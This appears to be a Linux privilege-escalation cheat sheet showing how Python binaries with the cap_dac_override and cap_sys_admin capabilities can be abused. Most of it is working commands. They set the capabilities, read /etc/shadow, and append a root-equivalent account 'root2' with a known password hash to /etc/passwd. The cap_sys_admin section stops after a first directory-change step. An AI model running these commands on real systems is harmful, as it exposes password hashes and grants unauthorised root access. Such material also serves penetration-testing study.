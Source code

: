 **python**

```bash
python -c "print(next(open('/etc/shadow')))"
```

```bash
python3 -c 'print(open("/etc/shadow").read())'
```

## cap_dac_override

#### Misconfiguring

```bash
setcap cap_dac_override+ep /usr/bin/python3.9
```

#### Exploiting


**Reading the `/etc/shadow` File**

```bash
/usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
python3 -c 'print(open("/etc/shadow").read())'
```

**Modifying `/etc/passwd` to Escalate Privileges**

Appending a new root user entry to `/etc/passwd`:

```bash
/usr/bin/python3.9 -c 'open("/etc/passwd", "a").write("root2:$1$RBQLuaaV$4Dqrii/GXbnYm5TGVw96y.:0:0:root:/root:/bin/bash\n")'
```

This effectively adds a new root user (`root2`) with a known password hash.




## cap_sys_admin

#### Misconfiguring

```bash
setcap cap_sys_admin+ep /usr/bin/python3.9
```


#### Exploiting

we can't directly update the password in the **/etc/passwd** file, but I can perform a bind mount. Copy the /etc/passwd file to the current working directory (/home/armour) and make the changes in the root user password.

```bash
cd /home/armour
```
